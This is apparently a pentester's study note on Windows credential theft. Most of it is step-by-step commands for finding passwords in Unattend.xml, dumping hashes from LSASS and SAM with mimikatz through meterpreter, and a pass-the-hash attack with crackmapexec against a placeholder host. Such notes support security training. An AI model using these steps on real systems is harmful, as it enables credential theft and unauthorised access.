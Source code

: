 
<h4>Windows Password Hashes</h4>

The windows OS stores hashed user account passwords locally in the SAM(Security Accounts Manager) database

>Elevated/Administrative privileges are required in order to access and interact with the LSASS process

In modern version of windows the SAM database is encrypted with a syskey


<h4>Searching for passwords in windows configuration files</h4>

This is typically done through the use of the "Unattended Windows Setup utility", which is used to automate the mass installation/deployment of Windows on Systems

The unattended windows setup utility will typically utilize one of the following configuration files that contain user account and  system configuration information

1. "C:\Windows\Panther\Unattend.xml"
2. "C:\Windows\Panther\Autounattend.xml"

>As a security precaution, the passwords stored in the unattended windows setup configuration file may be encoded in base64

To search for the xml file
```
search -f Unattend.xml
```
the file is located in
```
C:\Windows\Panther
```
Download it to your machine
```
Download Unattend.xml
```
From here you can get a username and password. You can go ahead and use psexec to connect to the creds you found
```
psexec.py Administrator@10.10.10.10   //This requires a password
```



<h4>Dumping Hashes with Mimikatz</h4>

Mimikatz is a windows post exploitation tool. It can be used to extract hashes from "lsass.exe" process memory where hashes are cached

If you are on a meterpreter shell, you can utilize the mimikatz extension "kiwi".

>Mimikatz will require elevated privileges in order to run correctly

Migrate to the lsass.exe process
```
pgrep lsass
migrate 777
```
To use the kiwi extension
```
load kiwi
```
You can use the help menu to check for commands after loading the extension
```
help
```
To use the mimikatz executable, create a temp dir
```
cd C:\\
mkdir Temp
cd Temp
upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
```
open a shell session
```
shell
```
execute the mimikatz executale
```
mimikatz.exe
```
Check if you have appropriate privileges
```
Privilege::debug //privilege '20' ok means you've got privileges
```
To dump for the sam database
```
lsadump::sam
```
To dump lsa secrte
```
lsadump::secret
```
To display logon passwords
```
sekurlsa::logonpasswords
```



<h4>Pass The Hash Attack</h4>

This is an exploitation technique that involved capturing or harvesting NTLM hashes or clear-text passwords and utilizing them to authenticate with the target legitimately

>Metasploit module PsExec

>Crackmapexec

Those 2 tools above can be used for this attack.

So you can reconnnect to the machine with the user's ntlm hash
```
crackmapexec smb 10.10.10.10 -u (username) -H "(NTLM hash)"
```
If this works, go ahead and execute a few command on it
```
crackmapexec smb 10.10.10.10 -u (username) -H "(NTLM hash)" -x "ipconfig"
```
